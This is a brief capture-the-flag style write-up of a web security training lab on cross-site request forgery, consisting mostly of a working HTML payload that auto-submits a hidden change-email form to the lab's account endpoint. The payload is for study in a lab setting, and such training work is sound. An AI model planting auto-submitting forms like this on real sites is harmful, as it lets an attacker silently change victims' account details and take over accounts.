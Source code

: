 
# Lab: CSRF vulnerability with no defenses


In this lab, there isn't any kind of protection. Thanks to the exploit server , the form will be submited directly otherwise 
in a real case scenario the user should just visit a website that i control with this malicious payload in order to modify his email.
 

## payload

```html
    <form id="my-formulaire" name="change-email-form" action="https://MYLAB.web-security-academy.net/my-account/change-email" method="POST">
        <input required type="email" name="email" value="evil@mail.com">
         <button class='button' type='submit'> Update email </button>
        </form>
    <script>
          let formulaire = document.getElementById("my-formulaire");
          formulaire.submit();
    </script>

```
